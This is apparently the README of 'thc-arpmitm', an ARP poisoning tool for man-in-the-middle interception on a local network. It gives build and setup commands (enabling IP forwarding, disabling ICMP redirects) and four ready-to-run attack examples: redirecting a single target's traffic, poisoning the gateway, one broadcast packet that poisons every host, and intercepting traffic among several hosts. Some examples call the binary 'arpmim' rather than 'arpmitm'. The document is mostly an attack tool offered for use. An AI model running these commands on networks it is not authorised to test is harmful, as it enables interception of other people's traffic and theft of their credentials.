 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).  

Direct Download: [https://github.com/hackerschoice/thc-arpmitm/tree/master/releases](https://github.com/hackerschoice/thc-arpmitm/tree/master/releases)

**Install:**
```sh
./configure --enable-static \
&& make all
```

Setup:
```sh
echo 1 >/proc/sys/net/ipv4/ip_forward
echo 0 | tee /proc/sys/net/ipv4/conf/*/send_redirects
iptables -L FORWARD -vn
```

**Example 1:**

Redirects all traffic between the target '10.0.1.111' and the Internet through us.
```sh
arpmitm -t 10.0.1.111
```

Longer version doing exactly the same:
```sh
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```

**Example 2:**

Tells the gateway (10.0.1.254) to redirect all traffic to .111 and .222 via us (00:02:13:37:73:50). Traffic from .111 and .222 traffic towards the gaterway is _not_ redirected (-A).
```sh
arpmim -v -A 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111 10.0.1.222
```

**Example 3:**

Use 1 broadcast packet to tell *everyone* that 10.0.1.254 is us.
```sh
arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```

**Example 4 the bold:**

Redirect all local traffic between the 4 hosts through us.
```sh
arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM

